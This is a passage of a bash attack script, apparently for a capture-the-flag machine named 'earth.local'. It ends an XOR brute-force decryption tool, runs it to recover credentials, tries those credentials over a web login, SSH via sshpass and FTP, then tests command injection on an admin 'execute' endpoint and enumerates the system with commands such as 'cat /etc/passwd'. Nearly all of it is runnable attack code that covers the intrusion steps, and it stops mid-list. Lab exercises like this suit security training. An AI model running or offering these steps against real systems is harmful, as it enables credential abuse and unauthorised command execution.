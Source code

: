 ```bash
                print(f"Full result saved to: {output_file}")
                
        except:
            continue

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Advanced XOR Decryption Tool')
    parser.add_argument('ciphertext', help='Ciphertext file path')
    parser.add_argument('-k', '--key', help='Key file path')
    parser.add_argument('-o', '--output', default='decrypted.txt', help='Output file path')
    parser.add_argument('-a', '--analysis', action='store_true', help='Enable analysis mode')
    parser.add_argument('-b', '--brute', action='store_true', help='Attempt brute force')
    
    args = parser.parse_args()
    
    if args.brute:
        brute_force_xor(args.ciphertext)
    elif args.key:
        xor_decrypt_advanced(args.ciphertext, args.key, args.output, args.analysis)
    else:
        print("Error: Must specify either --key for decryption or --brute for brute force")
        sys.exit(1)
PYTHON_SCRIPT

# Execute XOR decryption
python3 xor_decrypt.py encrypted_message.txt -k testdata.txt -o decrypted_credentials.txt --analysis

# ========================================
# PHASE 4: AUTHENTICATION & ACCESS
# ========================================

# Test discovered credentials on various services
# Web panel authentication
curl -v -X POST http://earth.local/admin/login \
     -d "username=terra&password=earthclimatechangebad4humans" \
     -c cookies.txt

# SSH authentication attempt (if credentials work)
sshpass -p "earthclimatechangebad4humans" ssh terra@192.168.131.130

# FTP authentication attempt (if FTP service discovered)
ftp 192.168.131.130
# Username: terra
# Password: earthclimatechangebad4humans

# ========================================
# PHASE 5: COMMAND INJECTION EXPLOITATION
# ========================================

# Basic command execution testing
curl -X POST http://earth.local/admin/execute \
     -b cookies.txt \
     -d "command=whoami" \
     --proxy http://127.0.0.1:8080  # For Burp Suite interception

# System information gathering
COMMANDS=(
    "whoami"
    "id"
    "uname -a"
    "cat /etc/passwd"
    "cat /etc/os-release"
```